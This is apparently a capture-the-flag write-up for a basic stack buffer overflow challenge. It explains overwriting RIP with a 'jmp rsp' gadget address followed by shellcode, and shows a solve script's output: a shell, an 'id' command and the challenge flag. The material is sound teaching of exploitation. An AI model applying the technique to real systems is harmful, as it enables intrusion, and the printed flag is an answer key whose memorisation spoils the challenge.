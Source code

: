 # Solution

The most common binary overflow challenge that one can find on the internet. In order to solve it, input 40 bytes of junk (32B stack + 8B RBP) and overwrite RIP with an address of `jmp rsp` (0x40120d) followed by shellcode. 

This makes the execution to reroute to `jmp rsp` which further moves the execution towards the shellcode put after overwritten RIP register:
```
$ python3 solve.py 
[+] Opening connection to 172.17.0.2 on port 9000: Done
[*] Switching to interactive mode
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat flag.txt
ibctf{n0w-th4th_y0ur3-w4rm3d-UP-4nd_r34dy_t0g0-332123}
``` 
